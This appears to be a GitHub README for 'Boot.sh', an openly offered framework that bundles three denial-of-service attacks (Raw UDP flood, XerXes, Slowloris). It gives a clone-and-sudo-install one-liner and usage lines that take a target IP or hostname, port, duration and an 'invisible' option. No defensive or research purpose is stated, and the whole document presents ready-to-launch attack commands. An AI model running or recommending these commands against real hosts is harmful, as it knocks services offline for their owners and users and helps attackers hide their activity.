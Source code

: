 # Boot.sh
Simple, free, open-source framework using three public DoS Attacks.

### Install
```sh
$ git clone https://github.com/OfficialDataBuster/Boot.sh.git; cd Boot.sh; chmod +x install; sudo ./install; rm install && clear; ./boot.sh
```

### Usage
* Usage Raw UDP: **/boot.sh rawudp [ip] [port] [time] [size] [invisible (1/0)]**
* Usage XerXes: **./boot.sh xerxes [hostname] [port] [time] [invisible (1/0)]**                      } 1=yes, 0=no
* Usage Slowloris: .**/boot.sh slowloris [hostname] [port] [time] [https or http] [invisible (1/0)]**
